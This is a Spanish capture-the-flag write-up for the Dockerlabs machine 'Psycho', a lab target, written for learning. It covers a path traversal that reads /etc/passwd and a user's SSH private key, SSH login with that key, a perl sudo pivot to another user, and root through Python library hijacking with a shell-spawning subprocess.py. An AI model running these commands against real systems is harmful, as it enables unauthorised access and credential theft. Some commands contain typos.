



# Write-up: 

**Nombre de la máquina:** `Psycho` 
**Plataforma:** `Dockerlabs` 
**IP:** `172.17.0.2` 
**SO:** `Linux` 
**Dificultad:** `Muy Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
	`ping 172.17.0.2`
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                    |
| ------ | -------- | ------------- | ------------------------ |
| 22     | ssh      | OpenSSH 9.6   | Necesitamos credenciales |
| 80     | http     | Apache 2.4.58 | Iniciaremos por aquí     |


Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Tenemos una página de bienvenida
    
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `backup`--> X
	- `uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herrmaienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 172.17.0.2`
```


	No nos aporta demasiado en este punto


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```


**Hallazgos:**
Nos devuelve una ruta llamativa `/index.php`

- Lanzamos la herramienta `wfuzz` que permite realizar ataques de `fuzzing` sobre URLs con el objetivo de descubrir parámetros GET ocultos en la URL `http://172.17.0.2/index.php`

```
 wfuzz -c -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hl 62
```


Interponiendo este parámetro `secret` en la ruta hacía /etc/passwd podemos acceder al directorio donde se almacenan los nombres de los usuarios explotando la vulnerabilidad `path traversal` 


- **Hallazgos clave**
	- Usuarios encontrados: `vaxei` y `luisillo`

Utilizando la misma vulnerabilidad llegamos hasta la clave `rsa` del usuario `vaxei` que copiamos y guardamos en un archivo `nano` dentro de nuestro directorio de trabajo. Cambiando los permisos de este archivo `600`

`http://172.17.0.2/index.php?secret=../../../home/vaxei/.ssh/id_rsa`


```
chmod 600 id_sra
```

### 22(SSH)

Si recordamos para acceder al servicio que corre en el puerto :22, el servicio `ssh`, y hemos podido encontrar la `id_rsa` del usuario `vaxei` por lo que no es necesario buscar password. 

```
ssh -i id_rsa vaxei@172.17.0.2
```
---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Con las credenciales descubiertas `id_rsa`  nos conectamos al servicio ssh:
```
	ssh -i id_rsa vaxei@172.17.0.2
```


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿Qué usuario somos? `whoami`


¿A qué grupo pertenezco? `id`


 
¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?
En este caso esto ya lo descubrimos en pasos previos. 

Revisamos los directorios de los usuarios:
`Luisillo`:


`Ubuntu`:


`Vaxei`:


- Hallazgo:
	- Archivo. `file.txt`. No parece relevante

	
	

Una buena práctica sería revisar los comandos utilizados por los usuarios en el `history`
#### Búsqueda del Vector de Escalada:

- **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
    ```
     vemos que el usuario `vaxei` tiene permisos para ejecutar `perl` como  el usuario  `luisillo`. 
    
	Hacemos una búsqueda en Gtfobins:
	https://gtfobins.github.io/gtfobins/perl/#sudo
	

	Y encontramos un código para rotar hasta `luisillo`
```
	sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```


- Estabilizamos la TTY para hacerla seminteractiva:
	- `script /dev/null -c bash`
	  
- Siendo el usuario `luisillo` comprobamos de nuevo los **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
	```
	
	
	Vemos que podemos ejecutar como `sudo` `python3` en `/opt/paw.py`


### 4.2. Explotación y Escalada a Root

Se ejecuta la técnica para obtener una shell como `root`.

Durante el análisis del script `/opt/paw.py`, identificamos que importa 4 librerías de Python:
`subprocess`,
`os`
`sys`
`time`

Ninguna especifica rutas absolutas. Esto nos permite explotar una vulnerabilidad conocida como **Python Library Hijacking**.

Esta técnica aprovecha el orden de búsqueda de módulos de Pyhton.
Si colocamos  un archivo con el mismo nombre de una librería importada  `subprocess.py` en el mismo directorio del script(`/opt`), Phyton lo cargará antes .

Al ejecutarse el script como `root`, nuestro código malicioso cargue primero por el intérprete de Python podremos ejecutar código arbitrario con privilegios de administrador. 



- Desarrollo de la técinca:
	- Creamos un archivo nano con el nombre `subprocess.py` en el directorio `/opt` e incluimos en él  código maliciosos para que nos proporcione una `shell` cuando sea importando.
	  
```
import os 
os.system("/bin/bash")
```


	-  Ejecutamos el script como root
	
```
 sudo /usr/bin/python3 /opt/paw.py
      
```


SOMOS ROOT 🚀
